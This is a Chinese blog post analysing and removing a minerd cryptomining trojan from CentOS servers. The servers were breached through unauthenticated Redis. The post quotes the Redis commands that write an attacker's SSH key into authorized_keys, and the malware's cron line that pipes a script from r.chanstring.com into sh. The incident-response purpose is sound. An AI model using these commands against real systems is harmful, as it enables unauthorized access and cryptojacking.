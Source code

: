 ```yaml
---
title: 彻底清除Linux centos minerd木马
categories:
  - 错误集锦
tags:
  - redis
  - 安全
date: 2016-10-26 22:41:19
toc: false
---
```


>前几天，公司两台linux服务器，一台访问速度很慢，cpu跑满，一台免密码登录失效，公钥文件被改写成redis的key。用htop命令查询发现了minerd木马进程，初步猜测是redis没有配访问权限造成的。网上查询minerd木马，发现这是一个很常见的挖矿程序，相关猜测也得到了验证。

下文是网上搜索到的清除minerd木马方法。

## 现状描述
1、top可以看到，这个minerd 程序把cpu跑满了

![1.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/1.jpg)
2、ps aux | grep minerd
可知是这个程序: /opt/minerd

<!-- more -->

这个不是我们自己启动的，可以断定服务器被黑了
这个进程是root用户启动的，代码有漏洞可能性不大（web服务是www用户启动的），多半黑客已经登录服务器了

![2.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/2.jpg)
3、有可能是免密登录了，去/root/.ssh 目录下，并没有发现authorized_keys，但发现了KHK75NEOiq这个文件

查看 vim KHK75NEOiq
可以看到内容就是免密码登录的公钥

![3.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/3.jpg)
4、在ssh的配置文件/etc/ssh/sshd_config中也可以看到把AuthorizedKeysFile指向了这个文件了（.ssh/KHK75NEOiq）

猜想是这样的：通过authorized_keys免密码登录后，在这个目录下创建了KHK75NEOiq这个文件，修改了AuthorizedKeysFile的指向，就把authorized_keys这个文件删除了。

![4.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/4.jpg)
5、那么是写进来authorized_keys的那？

之前我处理过类似的问题，是redis未授权导致的，也就是说外网可以直接不用密码登录我的redis, 连上redis后，通过以下命令即可创建文件：

<font style="color:red">**config set dir /root/.ssh
config set dbfilename authorized_keys
set key value，其中value为生成公钥，即可将公钥保存在服务器，使得登录时不需要输入账号与密码。**</font>

<br/>

---

## 先堵住免登录漏洞
1、修改ssh端口
编辑/etc/ssh/sshd_config文件中的Port 22将22修改为其他端口

2、禁止root用户登陆
编辑/etc/ssh/sshd_config文件中的PermitRootLogin 修改为no

3、修改无密码登陆的文件路径
编辑/etc/ssh/sshd_config文件中的AuthorizedKeysFile 修改为其他文件路径

4、删除 .ssh下的 KHK75NEOiq

5、不让外网直接连接
在 redis.conf 文件中找到#bind 127.0.0.1，把前面的#号去掉，重启

---

## 找到木马守护进程
1、通常直接kill掉进程，是不好使的，肯定有守护进程，还有系统自启动，所以清理步骤是这样的：
1）干掉守护进程
2）干掉系统自启动
3）干掉木马进程

找到木马守护进程并干掉

守护进程有大概有两种存在形式，crontab 和常驻进程，常驻进程得慢慢分析，我们先看crontab，有一条不是我创建的任务。任务是：直接从远程下载一个脚本pm.sh 并执行。

![5.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/5.jpg)

2、我们来看看这个脚本

![6.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/6.jpg)

3、大致逻辑是这样的：
1）把 */10 * * * * curl -fsSL http://r.chanstring.com/pm.sh?0706 | sh 写入crontab
2）把authorized_keys删掉，并创建免登录文件/root/.ssh/KHK75NEOiq，修改ssh配置重启
3）curl下载/opt/KHK75NEOiq33 这个文件，并执行安装（/opt/KHK75NEOiq33 --Install），然后启动ntp

4、基本可以断定这个ntp就是守护进程，但看到ntp真的有些怕怕，ntp不是搞时间同步的吗，其实 Linux正常的ntp服务叫ntpd，并非ntp，很有迷惑性啊

![7.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/7.jpg)

5、但为了让自己放心，还是校验了一番
我们先从时间上校验，ntp是不是木马任务后创建的

查看这个木马任务第一次执行的时间
去/var/log下看cron的日志

![8.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/8.jpg)

6、Jul 24 09:23:01 第一次执行： curl -L http://r.chanstring.com/pm.sh?0703
Jul 24 09:30:01 第一次我们目前crontab里的任务：curl -fsSL http://r.chanstring.com/pm.sh?0706
Jul 24 09:49 脚本/etc/init.d/ntp的创建时间

从pm.sh这个脚本可知 curl下来/opt/KHK75NEOiq33这个文件，并执行安装 /opt/KHK75NEOiq33 --Install 比较耗时间，我执行了一下，在我的机器上是10多分钟。

所以创建时间上基本吻合

![9.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/9.jpg)

7、我们看一下ntp的随系统启动
runlevel 2 3 4 5都启动了，够狠的呀

![10.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/10.jpg)

8、看一下常用的3吧
可以看到 有个S50ntp 软链了脚本/etc/init.d/ntp

![11.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/11.jpg)

9、我们查看系统启动日志
vim /var/log/boot.log
有一条是Staring S50ntp，这个基本对应脚本/etc/init.d/ntp 中的 echo "Starting $name"

![12.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/12.jpg)

10、我们来看一下 /etc/init.d/ntp 这个脚本
$name应该就对应的值是 S50ntp，通过stdout_log,stderr_log,pid_file也得到了验证。

![13.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/13.jpg)

11、通过搜索安装文件（/opt/KHK75NEOiq33），可知看到 /opt/KHK75NEOiq33 --Install的过程中写入了ntp脚本 自启动 /opt/minerd等一系列的操作。

![14.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/14.jpg)

12、打开 /usr/local/etc/minerd.conf，内容就是/opt/minerd这个进程后的一些参数

![15.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/15.jpg)

13、好了 验证完毕，可以干掉这个ntp了

---

## 清理木马
1、去掉crontab文件中的有关木马内容：
/var/spool/cron/crontabs/root
/var/spool/cron/root

2、干掉守护进程ntp，并删除相关文件

![16.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/16.jpg)
![17.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/17.jpg)

3、干掉木马进程及其文件

![18.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/18.jpg)

4、干掉安装文件及免密登录的文件

![19.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/19.jpg)

5、干掉随系统启动的文件

![20.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/20.jpg)

6、top一下 一切都正常了！

![21.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/21.jpg)

7、重启一下，也没问题了

![22.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/22.jpg)